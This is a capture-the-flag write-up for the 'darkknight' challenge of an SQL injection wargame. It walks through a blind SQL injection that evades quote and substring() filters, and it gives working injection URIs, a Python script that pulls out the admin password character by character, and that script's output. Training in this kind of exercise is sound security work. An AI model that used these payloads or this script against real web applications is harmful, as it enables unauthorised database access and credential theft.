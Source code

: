 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 12
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/6cde625d-39f4-4536-bdd2-e4bacc1b7d44)

We are provided with the SQL query:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='{$_GET[pw]}' AND no={$_GET[no]}
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the message `Hello {$result[id]}`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. We have to perform a Blind SQL Injection.

This challenge also filters out the quotes character. 

We have to use Hexadecimal representations instead of strings. Alternatively, we can use the double-quote (`"`) character to bypass the filter.

## Blind SQL Injection

### Retrieving the password length

If we provide the following URI:

```
?no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 1
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 1
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/70be2f68-c530-4dcc-a541-a9b8938765df)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the length of the `pw` column is more than 1.

If we keep increasing the length and provide the following URI:

```
?no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 8
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND length(pw) LIKE 8
```

![4](https://github.com/Kunull/Write-ups/assets/110326359/a1ed7953-f711-4a32-9573-2eeb70fb0e4b)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the length of the `pw` column is 8.

### Leaking the password

This challenge also filters the `substring()` function.

Therefore, in order to leak the password, we will have to use the `mid()` function.
#### `mid()`

![3](https://github.com/Kunull/Write-ups/assets/110326359/2a05edee-9e1c-43b3-8970-4ea391376a28)

If we provide the following URI:

```
?no=0 OR id LIKE 0x61646d696e AND mid(pw, 1, 1) LIKE 0x30
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND mid(pw, 1, 1) LIKE 0x30
```

![5](https://github.com/Kunull/Write-ups/assets/110326359/89f8306f-902d-4bdc-bd15-4357ce6586b3)

Since the `Hello admin` message is printed, we know that the resultant query resulted in `True`.

That tells us that the first character of the `pw` for `id=admin` is `0x30` which is `0`.

We can move onto the second character:

```
?no=0 OR id LIKE 0x61646d696e AND mid(pw, 2, 1) LIKE 0x30
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='' AND no=0 OR id LIKE 0x61646d696e AND mid(pw, 2, 1) LIKE 0x30
```

![6](https://github.com/Kunull/Write-ups/assets/110326359/227d4a99-7fca-41ba-a579-55a57325abea)

Since the `Hello admin` message is not printed, we know that the resultant query did not result in `True`.

That tells us that the first character of the `pw` for `id=admin` is not `0x30` which is `0`.

We can keep repeating this process until we get all the eight characters of the admin password:

```
0b70ea1f
```

### Script

We can automate the entire process using a script.

```python title="darkknight_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'd6k46orbbik0hppkki48hqdg9k'}
url = 'https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php'
password_length = 0

for x in range(0, 10):
  payload = f'0 OR id LIKE "admin" AND length(pw) LIKE {x}'
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?no={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f'[!] Payload: ?no={payload}')
print(f'[!] Payload (URL encoded): ?no={encoded_payload}')
print(f'[!] Password length: {password_length}')

password = ''
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f'0 OR id LIKE "admin" AND mid(pw, {index}, 1) LIKE "{char}"'
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f'{url}?no={encoded_payload}'

    response = requests.get(full_url, cookies=cookies)

    if 'Hello admin' in response.text:
      password += char
      print()
      print(f'[+] Payload: ?no={payload}')
      print(f'[+] Payload (URL encoded): ?no={encoded_payload}')
      print(f'[+] Character at index {index}: {char}')
      break

print()
print(f'[!] Extracted password: {password}')
print(f'[!] Final payload: ?pw={password}')
```

```
python .\darkknight_script.py

[!] Payload: ?no=0 OR id LIKE "admin" AND length(pw) LIKE 8
[!] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+length%28pw%29+LIKE+8
[!] Password length: 8

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 1, 1) LIKE "0"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+1%2C+1%29+LIKE+%220%22
[+] Character at index 1: 0

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 2, 1) LIKE "b"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+2%2C+1%29+LIKE+%22b%22
[+] Character at index 2: b

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 3, 1) LIKE "7"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+3%2C+1%29+LIKE+%227%22
[+] Character at index 3: 7

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 4, 1) LIKE "0"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+4%2C+1%29+LIKE+%220%22
[+] Character at index 4: 0

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 5, 1) LIKE "e"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+5%2C+1%29+LIKE+%22e%22
[+] Character at index 5: e

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 6, 1) LIKE "a"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+6%2C+1%29+LIKE+%22a%22
[+] Character at index 6: a

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 7, 1) LIKE "1"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+7%2C+1%29+LIKE+%221%22
[+] Character at index 7: 1

[+] Payload: ?no=0 OR id LIKE "admin" AND mid(pw, 8, 1) LIKE "f"
[+] Payload (URL encoded): ?no=0+OR+id+LIKE+%22admin%22+AND+mid%28pw%2C+8%2C+1%29+LIKE+%22f%22
[+] Character at index 8: f

[!] Extracted password: 0b70ea1f
[!] Final payload: ?pw=0b70ea1f
```

Now, we can provide password URI:

```
?pw=0b70ea1f
```

The resultant query becomes:

```sql
SELECT id FROM prob_darkknight WHERE id='guest' AND pw='0b70ea1f' AND no=
```

![7](https://github.com/Kunull/Write-ups/assets/110326359/57213d19-deff-48b5-9681-d2cc8de28edf)
